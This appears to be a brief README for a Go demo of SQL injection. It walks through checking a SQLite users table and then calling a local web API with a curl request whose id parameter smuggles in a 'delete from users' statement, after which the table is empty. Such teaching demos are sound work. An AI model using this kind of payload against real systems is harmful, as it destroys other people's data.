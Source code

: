 # sql injection

1. run main.go
```sh
$ go run main.go
```

2. confirm there has data
```sh
$ sqlite3 test.db
sqlite> select * from users;
gorilla|12344
cat|!5698709
```

3. call web api
```sh
$ curl -s localhost:8080/todos\?id=1%3Bdelete%20from%20users
```

4. data was deleted
```sh
sqlite> select * from users;
```
